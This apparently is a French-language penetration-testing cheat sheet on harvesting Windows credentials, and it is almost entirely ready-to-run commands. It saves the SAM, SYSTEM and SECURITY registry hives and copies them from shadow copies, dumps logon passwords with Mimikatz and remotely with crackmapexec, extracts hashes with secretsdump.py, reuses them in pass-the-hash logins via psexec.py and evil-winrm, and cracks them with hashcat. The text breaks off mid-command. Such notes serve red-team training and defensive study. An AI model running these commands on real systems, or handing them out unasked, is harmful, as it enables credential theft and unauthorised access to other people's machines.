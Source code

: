```yaml
---
public: true
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

Création d'
```shell
wmic shadowcopy call create Volume="C:\"
```

```shell
vssadmin.exe list shadows

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
mimikatz.exe "privilege::debug; sekurlsa::logonpasswords; exit" >> mimikatz_output.txt
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/roc